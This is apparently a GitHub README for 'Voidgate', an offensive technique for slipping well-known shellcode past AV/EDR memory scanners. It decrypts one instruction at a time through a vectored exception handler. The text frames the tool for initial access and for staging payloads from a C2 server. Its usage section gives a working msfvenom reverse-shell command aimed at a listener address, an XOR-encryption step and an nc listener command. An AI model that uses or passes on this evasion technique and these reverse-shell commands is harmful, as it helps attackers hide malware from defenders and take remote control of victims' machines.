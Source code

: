

# VOIDGATE
### Description:
A technique that can be used to `bypass AV/EDR memory scanners`. This can be used to hide well-known and detected shellcodes (such as msfvenom) by performing `on-the-fly decryption of individual encrypted assembly instructions`, thus rendering memory scanners useless for that specific memory page.
_______________

### How it works:
This technique will create a `PAGE_EXECUTE_READWRITE` memory region where the encrypted assembly instructions will be stored. The shellcode will be wrapped around some padding. The program will set a `Hardware Breakpoint` (HWBP) on the entrypoint of the shellcode.

Next, the program will install a `Vectored Exception Handler` (VEH). This VEH will basically act like a `debugger`, single stepping through the code, reading the instruction pointer register (RIP) for each `SINGLE STEP` exception received by the VEH, and decrypting the next 16 bytes (maximum x64 assembly instruction length) where RIP points . The VEH also encrypts back the previously decrypted instruction, ensuring that the rest of the shellcode stays always encrypted with the exception of the single assembly instruction currently executed. After that, it will continue execution, with the `TRAP FLAG` configured on the Eflags register. This will ensure that the next assembly instruction will also trigger a breakpoint exception that the VEH can handle.

 After the VEH installation, the `main thread` execution will be redirected to the `payload entrypoint`. When the HWBP will be triggered at the entrypoint, the VEH will stop at each assembly instruction executed, perform the decryption of the next assembly instruction and encrypt the previous encrypted instruction which is saved as a global variable.

By doing this, basically `one single assembly instruciton is decrypted at a time`, with the rest of the `payload staying encrypted`.
____

### Limitations:
`NOTE:` This technique is ideal to obtain an initial access using a basic shellcode such as msfvenom or custom revers shells. This can also be used as an initial stage 1 payload that downloads the rest of the payload from the C2 server.

`NOTE:` This technique is not compatible with all payloads (such as reflective loaders) . Below is a list of current limitations:

* 1.) Since the `VEH` will trigger for `EACH ASSEMBLY INSTRUCTION` executed in the shellcode, the execution speed of the shellcode will be drastically slowed down. For each assembly instruction the CPU executes, the VEH will execute at least an additional 300 ASM instructions to perform the decryption, encryption and restore execution to the main thread. If the given shellcode is optimized for smaller size over performance (such as msfvenom), payload execution will be slower. It can take over 15 seconds (depending on the CPU) to execute an MSFVENOM. This happens since the specific shellcode used by msfvenom is sacrificing performance to obtain smaller payload size.
* 2.) If the shellcode calls `NtCreateThread` or any of its wrappers in Kernelbase.dll with the `entrypoint inside the shellcode`, the payload will `not work` since the VEH will not trigger for that thread execution since there is `no HWBP installed at the entrypoint of the newly created thread`. (Work in progress - will be implemented further in this repo)
* 3.) If the shellcode has some `values/variables stored inside itself` (for example, having the raw string "powershell.exe" that is referenced via an offset in a call to WinExec WINAPI) or some number `saved at an offset`, and the shellcode will later try to load or reference it somewhere, the program will not work since the specific variable or string `will be encrypted` and the VEH does not decrypt it. If the shellcode pushes such arguments on the stack via assembly instructions (`push 0x4141414141414141` to push "AAAAAAAA" on the stack to be used in a call to a function), this technique will work. (Work in progress - will be implemented further in this repo)
_____
### Usage:
 
How to reproduce the POC:

* 1.) Create your msfvenom payload:
```
 msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.100.33 LPORT=443 -f raw > shell.asm
```
* 2.) Use the XorEncryptPayload.exe to XOR encrypt the payload
```
./XorEncryptPayload.exe C:\Path\to\shell.asm
```
* 3.) Update it inside the main.cpp of Voidgate project
* 4.) Ensure the xor key matches the encryptor and Voidgate project
* 5.) Ensure your listener is waiting for the shellcode
```
nc -nvlp 443
```
* 6.) Execute Voidgate.exe
____
### Demo:

![](https://github.com/vxCrypt0r/voidgate/blob/master/poc.gif)

________

### Disclaimer
This repository is for academic purposes, the use of this software is your responsibility.
